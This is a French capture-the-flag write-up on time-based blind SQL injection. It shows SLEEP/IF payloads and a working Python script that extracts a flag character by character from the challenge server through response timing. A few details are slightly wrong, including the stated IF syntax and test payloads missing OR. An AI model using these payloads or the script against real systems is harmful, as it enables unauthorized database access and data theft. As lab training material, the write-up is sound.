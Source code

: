 # Writeup - Injection SQL #4: Quand est-ce qu'on arrive?

La requête pour ce défi est la même que pour le défi précédent. Seule la table utilisée est différente.

```sql
SELECT id,flag FROM challenge4 WHERE id='NOTRE_INPUT';
```

La différence par rapport au défi précédent est que l'on ne nous dit même pas s'il y a eu une erreur ni s'il y a des résultats. Le principe de de défi est le même que le précédent. Par contre, il faut donc trouver une manière de créer une comportement que l'on peut distinguer afin de recevoir des réponses à des questions booléennes. Une des choses qu'on peut manipuler via MariaDB est le temps que prend le serveur pour nous envoyer la réponse. En utilisant la fonction `SLEEP`, on peut artificiellement allongé le temps que le serveur prend pour nous répondre. Avant de construire notre requête et de scripter le tout, vérifions si `SLEEP` fonctionne.

```sql
 -- Entrée
' OR SLEEP(5) --
 -- Requête
 SELECT id,flag FROM challenge4 WHERE id='' OR SLEEP(5) -- ';
```

Le délai avant d'avoir une réponse est remarquablement plus long (au moins 5 secondes). Ça fonctionne!

La prochaine étape est de rendre cet appel à `SLEEP` conditionnel à une comparaison. Pour ceci, on fera appel à la fonction SQL `IF`. Son format est `SLEEP(<condition>, <si vrai>, <si faux>)`. On peut tester notre construction ainsi:

```
 -- Entrée
' IF(1>0, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(1>0, SLEEP(2), 0) -- ;

 -- Entrée
' IF(0>1, SLEEP(2), 0) --
 -- Requête
SELECT id,flag FROM challenge4 WHERE id='' IF(0>1, SLEEP(2), 0) -- ;
```

La première de ces 2 requêtes devraient prendre plus de temps alors que la deuxième prendra environ autant de temps qu'un requête vide.

Maintenant que nous pouvons avoir un comportement distinctif conditionnel à une comparaison que l'on contrôle. Il faut adapter le script que nous avons créé pour le challenge #3 afin de regarder le temps entre la requête et la réponse comme facteur plutôt que le contenu de la page.

**NOTE**: Selon la vitesse de votre connexion, la vitesse du serveur ainsi que la variation de temps entre le déla pour les réponses normales, il vous faudra mettre un `SLEEP` plus ou moins long. Faites plusieurs requêtes pour voir le temps que prend un requête sans `SLEEP` et mettez un déla suffisant pour différencier fiablement les requêtes où le `SLEEP` est exécuté de celles où il ne l'est pas.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests
from datetime import timedelta

URL = "https://unitedctf.ca:18000/challenge4.php"
HEADERS = {}
SLEEP_SECONDS = 0.3 # Sleep for 0.3 second. Adjust duration for your connection speed so you can differentiate responses.

query = "' OR IF(ASCII(SUBSTRING(flag, {}, 1)) > {}, SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- " # Placeholders are for Position and ascii value respectively
validate = "' OR IF(flag='{}', SLEEP(" + str(SLEEP_SECONDS) + "), 0) -- "

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if resp.elapsed > timedelta(seconds=SLEEP_SECONDS):
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).elapsed < timedelta(seconds=SLEEP_SECONDS):
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass)
    return currentPass

print("Flag: " + find_password())
```

After some time, we get the flag:

Flag: **FLAG-=+.I.U{7V$?rl!/p_Three_Tables_for_the_Elven-admins_under_the_RDBMS_f2@1_.V)qu_!;:{P,**
